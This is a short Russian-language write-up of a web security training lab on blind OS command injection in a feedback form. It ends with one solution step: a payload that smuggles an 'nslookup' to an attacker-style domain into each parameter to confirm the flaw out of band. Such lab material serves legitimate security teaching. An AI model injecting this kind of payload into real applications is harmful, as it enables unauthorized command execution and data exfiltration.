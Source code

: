 В этой лабораторной работе обнаружена уязвимость слепого внедрения команд ОС в функцию обратной связи.

Приложение выполняет команду оболочки, содержащую предоставленные пользователем данные. Команда выполняется асинхронно и не влияет на ответ приложения. Невозможно перенаправить вывод в место, к которому вы можете получить доступ. Однако вы можете инициировать внеполосные взаимодействия с внешним доменом.

Для решения лабораторной задачи воспользуйтесь уязвимостью слепого внедрения команд ОС, чтобы выполнить DNS-запрос к Burp Collaborator.

## Дано

- Уязвимость слепого внедрения команд ОС в функцию обратной связи.
- Команда выполняется асинхронно и не влияет на ответ приложения
- Невозможно перенаправить вывод в место, к которому вы можете получить доступ.
- Можно инициировать внеполосные взаимодействия с внешним доменом.

## Задача

- выполнить DNS-запрос к Burp Collaborator.

# Решение

1. Тестируем каждый параметр пингуя наш  Burp Collaborator
```
; nslookup kgji2ohoyw.web-attacker.com &
```
